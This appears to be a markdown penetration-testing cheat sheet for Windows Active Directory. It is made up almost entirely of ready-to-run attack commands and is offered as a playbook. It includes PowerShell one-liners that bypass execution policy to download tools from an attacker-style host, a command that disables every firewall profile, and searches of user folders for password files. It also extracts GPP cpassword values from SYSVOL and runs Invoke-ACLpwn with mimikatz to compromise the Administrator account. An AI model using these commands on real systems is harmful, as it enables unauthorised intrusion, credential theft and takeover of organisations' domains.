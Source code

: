 ## Downloading/ Uploading Files

Download a file to the current folder with the same name:

    Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');" 

Download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function:

    Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');" 


## Disable Firewall

    Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

## Enumeration

### Enumerate Domain

    Get-NetDomain
    Get-NetDomain -Domain <DomainName>
    Get-DomainSID
    Get-Domain Policy

### Enumerate Domain Computers

    Get-NetComputer
    Get-NetComputer -FullData
    Get-NetComputer -OperatingSystem "*Server 2016*"
    Get-ADComputer (will list all computers within the domain)
    Get-NetComputer -Ping (Enumerate Live machines) 
    Get-DomainGroup

### Enumerate Service Accounts

    Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

### Enumerate Groups

    Get-NetGroup
    Get-NetGroup -Domain <Target Domain>
    Get-NetGroup -Full Data
    Get-ADGroup -Filter * | select name
    Get-ADGroup -Filter * -Properties *
    Get-Netgroup -groupname *admin*
    Get-Netgroup 'Domain Admins' -FullData
    Get ADGroup -Filter 'Name -like "*admin*"' | select Name 

### Enumerate Shares
    
    Find-DomainShare 
    Find-DomainShare -CheckShareAccess

### Enumerate the Network

    set [Use SET to get domain information and username]
    net view [Use NET VIEW to get computers in the users domain and other domains]
    net view /domain [Use NET VIEW to get computers in other domains]
    net user [Use NET USER to get local users on the computer you are on]
    net user /domain [All users in the current user's domain]
    net localgroup [Use NET LOCALGROUP to get the local groups on the computer] 
    net localgroup /domain [Use NET LOCALGROUP to get the domain groups] 
    net localgroup administrators [All users in the local administrators group]
    net localgroup administrators /domain [All users in the domain administrators group]
    net group "Company Admins" /domain [All users in the "Company Admins" group]
    net user "wesley.pipes" /domain [All info about this user]
    nltest /dclist: [List Domain Controllers]

### Enumerate Computer Files

Locate files with "password" in the name within C:\Users

    Get-ChildItem -Recurse -Path "C:\Users" -File | ? { $_.Name -match "password" } -ErrorAction SilentlyContinue 

Locate files with the .TXT extension within C:\Users 

    Get-ChildItem -Recurse -Path "C:\Users" -File | ? { $_.Name -like "*.txt" } -ErrorAction SilentlyContinue 

Enumerate files in C:\Users recursively, excluding EXE, MSI, DLL to return files that contain the string/partial string "user" and/or "pass" (will pick up "bypass", change "pass" to "password" to limit matches). Remove "| Select Path" to view the lines themselves within each file that the pattern appears on instead of the file's location 

    GCI -Recurse -Path "C:\Users\" -File | ? { ($_.Name -notlike "*.exe") -and ($_.Name -notlike "*.msi") -and ($_.Name -notlike "*.dll") } | Select-String -pattern user,pass | Select Path -ErrorAction SilentlyContinue 

Recursively enumerates all TXT files and displays the content lines within the files that match the pattern "user" and/or "pass"

    GCI -Recurse -Path "C:\Users" -File | ? { $_.Name -like "*.txt" } | Select-String user,pass

### Find GPP Passwords in SYSVOL

    findstr /S cpassword $env:logonserver\sysvol\*.xml
    findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)

### ADACLScanner

A tool with GUI used to create reports of access control lists (DACLs) and system access control lists (SACLs) in Active Directory.  
Run effective rights report from the command line. Parameter from command line to get modified date of security descriptor in report. 

    .\ADACLScan.ps1 -Base "dc=target,dc=domain" -AccessType Allow -ApplyTo user -Permission "WriteProperty|GenericAll"

Reference: https://github.com/canix1/ADACLScanner

### Invoke-ACLpwn

Invoke-ACLpwn is a tool that automates the discovery and pwnage of ACLs in Active Directory that are unsafe configured.

    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -NoDCSync
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -userAccountToPwn 'Administrator'
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -LogToFile
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -NoSecCleanup
    ./Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -mimiKatzLocation .\mimikatz.exe -Username 'testuser' -Domain 'xenoflux.local' -Password 'Welcome01!'

Reference: https://github.com/fox-it/Invoke-ACLPwn

### PowerView

PowerView is a PowerShell tool to gain network situational awareness on Windows domains. It contains a set of pure-PowerShell replacements for various windows "net *" commands, which utilize PowerShell AD hooks and underlying Win32 API functions to perform useful Windows domain functionality.

To install this module, drop the entire Recon folder into one of your module directories. The default PowerShell module paths are listed in the $Env:PSModulePath environment variable.

The default per-user module path is: 

    "$Env:HomeDrive$Env:HOMEPATH\Documents\WindowsPowerShell\Modules"
The default computer-level module path is: 

    "$Env:windir\System32\WindowsPowerShell\v1.0\Modules"

To use the module:

    Import-Module Recon

To see the commands imported: 

    Get-Command -Module Recon

Reference: https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
